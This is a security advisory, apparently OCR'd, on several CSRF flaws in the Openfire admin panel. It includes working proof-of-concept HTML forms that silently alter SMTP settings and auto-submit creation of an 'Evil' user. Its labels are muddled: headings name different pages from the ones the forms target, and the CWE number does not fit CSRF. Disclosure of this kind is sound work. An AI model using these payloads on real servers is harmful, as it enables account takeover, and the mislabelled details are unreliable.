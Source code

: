 The following HTML iframe command allows reproducing the attack against the Openfire *system-email.jsp* admin page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/system-email.jsp" method="post" target="csrf-frame" >
    <input type="text" name="host" value="mail.google.com" >
    <input type="text" name="port" value="25" >
    <input type="text" name="debug" value="false" >
    <input type="text" name="server_username" value="toto" >
    <input type="text" name="server_password" value="toto" >
    <input type="text" name="save" value="Save Changes" >
</form>
```

### Affected versions

* Version >= 3.10.2 and < 4.0.0


## Several CSRF Vulnerabilities identified in Openfire 3.10.2

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-312

**CVSS Base Score**: 5.4

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several CSRF vulnerabilities have been found on different pages of the admin panel of the OpenFire web server. Through this attack, an attacker could drive a valid user to execute unwittingly a request to the OpenFire sever.

These vulnerabilities have already been found by hyp3rlinx, but had not been patched yet.

### Proof of Concept

#### *connection-settings-external-components.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *dwr/exec/downloader.installPlugin.dwr* page:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/user-create.jsp" method="get" target="csrf-frame" >
    <input type="text" name="name" value="Evil" >
    <input type="text" name="email" value="evil@evil.f" >
    <input type="text" name="password" value="evil" >
    <input type="text" name="passwordConfirm" value="evil" >
    <input type="text" name="create" value="Create+User" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O